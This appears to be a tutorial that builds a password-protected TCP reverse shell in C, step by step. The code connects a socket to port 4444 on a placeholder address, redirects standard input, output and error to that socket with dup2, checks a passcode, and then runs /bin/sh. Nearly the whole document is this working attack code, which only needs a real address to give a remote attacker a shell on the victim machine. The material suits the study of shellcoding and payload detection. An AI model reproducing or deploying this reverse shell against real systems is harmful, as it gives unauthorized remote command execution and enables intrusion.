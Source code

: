 Declare the passcode that must be provided in order for the shell to be executed and its length:

```c
char *p = "Password";
int length = strlen(p);
```

Create a socket:

```c
int sockfd = socket(AF_INET, SOCK_STREAM, 0);
```

Initialize the connection on a socket, initializing the structure for the TCP/IP address first:

```c
struct sockaddr_in address = {
	.sin_family = AF_INET,
	.sin_port = htons(4444),
	.sin_addr = inet_addr("127.1.1.1")
};

connect(sockfd, (struct sockaddr*) &address, sizeof(address));
```

Duplicate STDIN, STDOUT and STDERR file descriptors in order to redirect everything to the socket connected:

```c
dup2(sockfd, 0);
dup2(sockfd, 1);
dup2(sockfd, 2);
```

Attempt to read up to 64 bytes from the connection:

```c
char pass[64];
read(sockfd, pass, 64);
```

Compare the passcode from the connection with the predefined and if they match execute the `/bin/sh` program. 

```c
if (strncmp(pass, p, length) == 0)
{
        execve("/bin/sh", NULL, NULL);
}
```

If the passcode from the connection doesn't match with the predefined terminate the program.

```c
else
{
        exit(-1);
}
```
